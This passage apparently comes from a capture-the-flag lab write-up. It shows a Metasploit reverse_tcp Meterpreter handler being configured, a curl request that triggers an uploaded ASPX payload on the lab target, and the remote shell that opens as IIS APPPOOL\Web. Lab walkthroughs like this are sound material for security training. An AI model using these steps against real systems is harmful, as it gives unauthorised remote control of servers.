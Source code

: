 ```

msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) >
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost tun0
lhost => 10.10.14.14
msf5 exploit(multi/handler) > set lport 443
lport => 443

msf5 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.14      yes       The listen address (an interface may be specified)
   LPORT     443              yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
   
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.14:443

```

Now just visit the page:

```

root@kali# curl http://10.10.10.5/met_rev_443.aspx

```

And get a shell:

```

[*] Sending stage (179779 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.14:443 -> 10.10.10.5:49164) at 2019-03-05 12:09:09 -0500

meterpreter > getuid
Server username: IIS APPPOOL\Web

```

